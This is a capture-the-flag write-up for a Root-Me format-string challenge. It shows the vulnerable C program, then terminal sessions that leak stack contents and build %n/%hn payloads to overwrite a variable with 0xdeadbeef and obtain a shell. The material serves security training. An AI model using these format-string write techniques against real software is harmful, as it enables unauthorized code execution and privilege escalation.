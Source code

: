 # ELF x86 - Format string bug basic 2
- Problems: https://www.root-me.org/en/Challenges/App-System/ELF-x86-Format-string-bug-basic-2

We can see the source code as follows.

```c++
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
int main( int argc, char ** argv )
 
{
 
        int var;
        int check  = 0x04030201;
 
        char fmt[128];
 
        if (argc <2)
                exit(0);
 
        memset( fmt, 0, sizeof(fmt) );
 
        printf( "check at 0x%x\n", &check );
        printf( "argv[1] = [%s]\n", argv[1] );
 
        snprintf( fmt, sizeof(fmt), argv[1] );
 
        if ((check != 0x04030201) && (check != 0xdeadbeef))    
                printf ("\nYou are on the right way !\n");
 
        printf( "fmt=[%s]\n", fmt );
        printf( "check=0x%x\n", check );
 
        if (check==0xdeadbeef)
        {
                printf("Yeah dude ! You win !\n");
                setreuid(geteuid(), geteuid());
                system("/bin/bash");
        }
}
```

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   73 Symbols     Yes	0		3	./ch14
ASLR is OFF
```

```bash
app-systeme-ch14@challenge02:~$ ./ch14 $(python -c "print 'AAAA-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x'")
check at 0xbffffa78
argv[1] = [AAAA-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x]
fmt=[AAAA-080485f1-00000000-00000000-000000c2-bffffbc4-b7fe1449-f63d4e2e-04030201-41414141]
check=0x4030201
```



```bash
app-systeme-ch14@challenge02:~$ ./ch14 $(python -c "print '\xa8\xfa\xff\xbf'+'%9\$n'")
check at 0xbffffaa8
argv[1] = [����%9$n]

You are on the right way !
fmt=[����]
```

dead: 57005

Beaf: 48879

xxxxbeef

deadxxxx

deadbeef



57005 - 48879 = 8126



%48875x%9$hn

%8126x%10$hn

```
app-systeme-ch14@challenge02:~$ ./ch14 $(python -c "print '\x98\xfa\xff\xbf'+'\x9a\xfa\xff\xbf'+'%48871x%9\$hn'+'%8126x%10\$hn'")
check at 0xbffffa98
argv[1] = [��������%48871x%9$hn%8126x%10$hn]
fmt=[��������                                                                                                                       ]
check=0xdeadbeef
Yeah dude ! You win !
```

